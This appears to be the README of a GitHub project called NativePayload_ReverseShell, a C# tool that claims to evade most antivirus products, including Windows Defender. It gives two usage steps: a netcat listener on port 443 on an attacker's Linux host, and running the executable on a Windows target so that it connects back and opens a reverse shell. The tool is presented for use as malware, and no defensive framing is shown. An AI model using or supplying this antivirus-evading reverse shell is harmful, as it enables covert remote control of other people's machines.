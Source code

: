 # NativePayload_ReverseShell
This is Simple C# Source code to Bypass almost "all" AVS, (kaspersky v19, Eset v12 v13 ,Trend-Micro v16, Comodo &amp; Windows Defender Bypassed via this method Very Simple) 

    //// Step 1 (linux Side:192.168.56.1)   : nc -l -p 443 
 
    //// Step 2 (Windows Side:192.168.56.x) : NativePayload_ReverseShell.exe 192.168.56.1 443 
